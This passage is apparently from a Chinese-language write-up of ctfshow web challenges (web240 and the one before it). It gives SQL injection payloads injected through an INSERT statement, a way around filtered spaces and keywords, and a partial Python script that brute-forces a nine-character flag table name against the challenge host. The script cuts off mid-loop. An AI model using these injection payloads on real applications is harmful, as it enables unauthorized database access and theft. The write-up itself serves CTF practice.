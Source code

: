 

payload:

读表

```
username=1',(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name=database())))#&password=1
```

由于*被ban掉了，没办法用之前无列名爆字段的方法

这里猜测列名为flag，直接读

```
username=1',(select(flag)from(flagbb)))#&password=1
```



#### web240

```
Hint: 表名共9位，flag开头，后五位由a/b组成，如flagabaab，全小写
```

```
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //过滤空格 or sys mysql
```

根据hint可以知道是要爆破表名

拿y4✌的脚本改一下

```
"""
Author:Y4tacker
"""
import random
import requests

url = "http://0a7a5c02-0a05-4efe-86f5-fcf36464cc74.challenge.ctf.show"
url_insert = url + "/api/insert.php"
url_flag = url + "/api/?page=1&limit=1000"


# 看命函数
def generate_random_str():
    sttr = 'ab'
    str_list = [random.choice(sttr) for i in range(5)]
    random_str = ''.join(str_list)
    return random_str


while 1:
    data = {
        'username': f"1',(select(flag)from(flag{generate_random_str()})))#",
        'password': ""
    }
    r = requests.post(url_insert, data=data)
    r2 = requests.get(url_flag)
    if "ctfshow{" in r2.text:
        for i in r2.json()['data']:
            if  "ctfshow{" in i['pass']:
```